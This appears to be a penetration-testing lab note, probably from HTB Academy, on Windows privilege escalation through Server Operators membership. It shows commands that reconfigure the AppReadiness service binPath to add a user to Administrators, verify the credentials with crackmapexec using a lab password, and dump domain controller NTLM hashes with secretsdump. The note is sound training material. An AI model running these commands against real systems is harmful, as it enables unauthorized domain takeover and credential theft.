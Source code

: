 Membership of this group confers the powerful **SeBackupPrivilege** and **SeRestorePrivilege** privileges and the ability to control local services.

Let's examine the **AppReadiness** service. We can confirm that this service starts as SYSTEM using the **sc.exe** utility.

```bash
sc qc AppReadiness
```

We can use the service viewer/controller [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), which is part of the Sysinternals suite, to check permissions on the service. **PsService** works much like the **sc** utility and can display service status and configurations and also allow you to start, stop, pause, resume, and restart services both locally and on remote hosts.

```bash
c:\Tools\PsService.exe security AppReadiness
```

In this way we can can confirm that the Server Operators group has **SERVICE_ALL_ACCESS** access right, which gives us full control over this service.

Let's change the binary path to execute a command which adds our current user to the default local administrators group.

```bash
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

Starting the service fails, which is expected.

```bash
sc start AppReadiness
```

If we check the membership of the administrators group, we see that the command was executed successfully.

```bash
net localgroup Administrators
```

**IMPORTANTE**: Alcune volte occorre effettuare il log out e il login per abilitare effettivamente i privilegi!

From here, we have full control over the Domain Controller and could retrieve all credentials from the **NTDS database** and access other systems, and perform post-exploitation tasks.

```bash
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

Retrieving NTLM Password Hashes from the Domain Controller.

```bash
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

## Change User Password
